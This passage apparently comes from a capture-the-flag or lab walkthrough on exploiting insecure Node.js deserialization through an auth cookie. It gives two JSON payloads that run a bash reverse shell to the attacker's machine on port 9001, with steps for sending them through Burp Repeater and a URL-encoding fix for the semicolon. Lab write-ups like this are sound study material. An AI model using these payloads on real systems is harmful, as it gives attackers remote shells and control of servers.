 ```json
// Payload
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'bash -i >& /dev/tcp/<tun0_IP>/9001 0>&1\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Now replace the value of auth cookie with the above payload in the repeater tab and send the request. Before sending a request, make sure to start a netcat listener on your local machine on port 9001.

<figure><img src="../../.gitbook/assets/Untitled 22 (10).png" alt=""><figcaption></figcaption></figure>

It didn’t work. If you check the payload in the repeater tab, its highlighted in two different colours, which because the payload is broken into two parts due to the semicolon `;` in the payload. So, this time I encoded the semicolon with URL encoding and also I replace all the single quotes with double quotes i.e, `‘` replaced with `“`, then I send the request. The URL encoded value of semicolon is `%3b`.

```json
// Payload: URL encoded semicolon and replaced all single quotes with double quotes.
{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"bash -i >& /dev/tcp/<tun0_IP>/9001 0>&1\", function(error, stdout, stderr) { console.log(stdout) })%3b}()"}
```
